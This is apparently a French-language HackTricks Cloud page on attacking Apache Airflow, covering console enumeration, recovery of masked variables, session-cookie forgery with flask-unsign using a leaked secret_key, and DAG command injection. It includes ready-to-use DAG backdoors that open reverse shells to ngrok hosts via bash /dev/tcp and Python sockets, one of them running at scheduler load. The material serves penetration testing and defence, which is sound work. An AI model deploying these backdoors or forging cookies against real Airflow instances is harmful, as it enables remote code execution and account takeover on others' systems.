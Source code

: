 # Sécurité Apache Airflow

<details>

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

[**Apache Airflow**](https://airflow.apache.org) sert de plateforme pour **orchestrer et planifier des pipelines ou des workflows de données**. Le terme "orchestration" dans le contexte des pipelines de données signifie le processus d'organisation, de coordination et de gestion de workflows de données complexes provenant de différentes sources. Le but principal de ces pipelines de données orchestrés est de fournir des ensembles de données traitées et exploitables. Ces ensembles de données sont largement utilisés par une multitude d'applications, y compris mais sans s'y limiter, des outils de business intelligence, des modèles de data science et d'apprentissage automatique, tous étant fondamentaux pour le fonctionnement des applications de big data.

Fondamentalement, Apache Airflow vous permettra de **planifier l'exécution de code lorsque quelque chose** (événement, cron) **se produit**.

## Laboratoire Local

### Docker-Compose

Vous pouvez utiliser le **fichier de configuration docker-compose depuis** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) pour lancer un environnement docker apache airflow complet. (Si vous êtes sur MacOS, assurez-vous de donner au moins 6 Go de RAM à la machine virtuelle docker).

### Minikube

Une façon simple de **faire fonctionner apache airflow** est de le faire **avec minikube** :
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuration Airflow

Airflow pourrait stocker des **informations sensibles** dans sa configuration ou vous pouvez trouver des configurations faibles en place:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Avant de commencer à attaquer Airflow, vous devez comprendre **comment fonctionnent les autorisations**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attaques

### Énumération de la console Web

Si vous avez **accès à la console Web**, vous pourriez être en mesure d'accéder à certaines ou à l'ensemble des informations suivantes:

* **Variables** (Des informations sensibles personnalisées pourraient être stockées ici)
* **Connexions** (Des informations sensibles personnalisées pourraient être stockées ici)
* Accédez à celles-ci dans `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Des informations sensibles comme la **`secret_key`** et les mots de passe pourraient être stockées ici)
* Liste des **utilisateurs et rôles**
* **Code de chaque DAG** (qui pourrait contenir des informations intéressantes)

### Récupération des valeurs des variables

Les variables peuvent être stockées dans Airflow afin que les **DAGs** puissent **accéder** à leurs valeurs. C'est similaire aux secrets d'autres plateformes. Si vous avez **suffisamment d'autorisations**, vous pouvez y accéder dans l'interface graphique à `http://<airflow>/variable/list/`.\
Par défaut, Airflow affichera la valeur de la variable dans l'interface graphique, cependit, selon [**ceci**](https://marclamberti.com/blog/variables-with-apache-airflow/), il est possible de définir une **liste de variables** dont la **valeur** apparaîtra comme des **astérisques** dans l'**interface graphique**.

![](<../../.gitbook/assets/image (164).png>)

Cependant, ces **valeurs** peuvent toujours être **récupérées** via **CLI** (vous devez avoir accès à la base de données), une **exécution de DAG arbitraire**, une **API** accédant au point de terminaison des variables (l'API doit être activée), et **même l'interface graphique elle-même!**\
Pour accéder à ces valeurs depuis l'interface graphique, il suffit de **sélectionner les variables** que vous souhaitez accéder et de **cliquer sur Actions -> Export**.\
Une autre façon est de réaliser une **attaque par force brute** sur la **valeur cachée** en utilisant le **filtrage de recherche** jusqu'à ce que vous l'obteniez:

![](<../../.gitbook/assets/image (152).png>)

### Élévation de privilèges

Si la configuration **`expose_config`** est définie sur **True**, à partir du **rôle Utilisateur** et **au-dessus** peuvent **lire** la **configuration sur le web**. Dans cette configuration, la **`secret_key`** apparaît, ce qui signifie que tout utilisateur avec cette clé valide peut **créer son propre cookie signé pour se faire passer pour n'importe quel autre compte utilisateur**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Porte dérobée DAG (RCE dans le worker Airflow)

Si vous avez un **accès en écriture** à l'endroit où les **DAG sont sauvegardés**, vous pouvez simplement **en créer un** qui vous enverra un **shell inversé**.\
Notez que ce shell inversé sera exécuté à l'intérieur d'un **conteneur worker Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Porte dérobée DAG (RCE dans le planificateur Airflow)

Si vous configurez quelque chose à être **exécuté à la racine du code**, au moment de la rédaction de cet article, il sera **exécuté par le planificateur** quelques secondes après l'avoir placé dans le dossier du DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Création de DAG

Si vous parvenez à **compromettre une machine à l'intérieur du cluster DAG**, vous pouvez créer de nouveaux **scripts DAG** dans le dossier `dags/` et ils seront **répliqués dans le reste des machines** à l'intérieur du cluster DAG.

### Injection de Code DAG

Lorsque vous exécutez un DAG depuis l'interface graphique, vous pouvez **transmettre des arguments**.\
Par conséquent, si le DAG n'est pas correctement codé, il pourrait être **vulnérable à l'injection de commandes.**\
C'est ce qui s'est passé dans ce CVE : [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tout ce que vous devez savoir pour **commencer à rechercher des injections de commandes dans les DAG** est que les **paramètres** sont **accédés** avec le code **`dag_run.conf.get("nom_param")`**.

De plus, la même vulnérabilité pourrait se produire avec les **variables** (notez qu'avec suffisamment de privilèges, vous pourriez **contrôler la valeur des variables** dans l'interface graphique). Les variables sont **accédées avec**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si elles sont utilisées par exemple à l'intérieur d'une commande bash, vous pourriez effectuer une injection de commande.

<details>

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
